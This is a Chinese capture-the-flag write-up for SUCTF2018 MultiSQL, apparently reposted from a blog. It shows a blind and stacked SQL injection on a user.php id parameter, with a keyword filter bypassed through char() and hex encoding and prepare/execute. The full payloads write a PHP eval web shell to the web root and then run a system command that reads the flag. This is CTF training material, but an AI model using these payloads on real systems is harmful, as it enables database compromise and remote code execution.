




# SUCTF2018-MultiSQL

[原文链接](https://blog.csdn.net/qq_46263951/article/details/119174694)

进去题目页面。



查看网页源代码发现有注册登录页面



随便注册一个用户，发现跳转到了`/user/user.php`



查看用户信息,发现有传参`/user/user.php?id=2`



在?id=后存在一个sql盲注,我们来尝试一下
`?id=2^(if(ascii(mid(user(),1,1))>0,0,1))`判断存在注入，2异或0还是为2

经过fuzz测试后发现这里过滤了union，select ，&，|，过滤了select然后存在堆叠注入的可以使用预处理注入，尝试写入shell，因为过滤了select等字符，使用char()绕过，需要执行的语句
select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';

## 十进制ascii码绕过

使用脚本编程十进制:

```
str="select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str=len(str)
for i in range(0,len_str):
	if i == 0:
		print('char(%s'%ord(str[i]),end="")
	else:
		print(',%s'%ord(str[i]),end="")
print(')')
```

得到转十进制ascii码的结果：

```
char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59)
```

构造payload：

```
?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;
```

这里使用了prepare预处理语句

进入shell页面`node4.buuoj.cn/favicon/shell.php`

然后post传参

```
_=system('cat /WelL_Th1s_14_fl4g');
```

得到flag

## 十六进制编码绕过

也可以使用十六进制编码payload:

```
select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/muma.php'

0x73656c65637420273c3f706870206576616c28245f504f53545b5f5d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f6d756d612e70687027
```

payload：

```
?id=2;set @sql=0x73656c65637420273c3f706870206576616c28245f504f53545b5f5d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f6d756d612e70687027;prepare query from @sql;execute query;
```


